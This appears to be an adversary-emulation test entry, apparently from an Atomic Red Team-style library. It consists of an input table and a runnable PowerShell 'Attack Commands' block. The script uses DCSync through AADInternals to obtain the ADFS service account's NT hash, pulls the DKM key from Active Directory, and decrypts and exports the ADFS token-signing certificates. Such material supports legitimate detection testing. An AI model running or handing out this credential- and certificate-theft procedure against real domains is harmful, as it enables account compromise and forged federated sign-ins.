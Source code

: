 
**auto_generated_guid:** cab413d8-9e4a-4b8d-9b84-c985bd73a442





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| adfs_service_account_name | Name of the ADFS service account | string | adfs_svc|
| replication_user | Username with replication rights. It can be the Domain Admin running the script | string | Administrator|
| replication_password | Password of replication_username | string | ReallyStrongPassword|
| adfs_server_name | Name of an ADFS server | string | sts.contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module ActiveDirectory -Force 
Import-Module AADInternals -Force | Out-Null
#Get Configuration
$dcServerName = (Get-ADDomainController).HostName
$svc = Get-ADObject -filter * -Properties objectguid,objectsid | Where-Object name -eq "#{adfs_service_account_name}"
$PWord = ConvertTo-SecureString -String "#{replication_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList #{replication_user}, $PWord
# use DCSync to fetch the ADFS service account's NT hash
$hash = Get-AADIntADUserNTHash -ObjectGuid $svc.ObjectGuid -Credentials $Credential -Server $dcServerName -AsHex
$ADFSConfig = Export-AADIntADFSConfiguration -Hash $hash -SID $svc.Objectsid.Value -Server #{adfs_server_name}
# Get certificates decryption key
$Configuration = [xml]$ADFSConfig
$group = $Configuration.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $Configuration.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $Configuration.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$ADSearch.PropertiesToLoad.Clear()
$ADSearch.PropertiesToLoad.Add("displayName") | Out-Null
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"] 
$ADSearch.PropertiesToLoad.Clear()
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne() 
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0] 
# Get encrypted certificates from configuration and decrypt them
Export-AADIntADFSCertificates -Configuration $ADFSConfig -Key $key
Get-ChildItem | Where-Object {$_ -like "ADFS*"}
Write-Host "`nCertificates retrieved successfully"
```
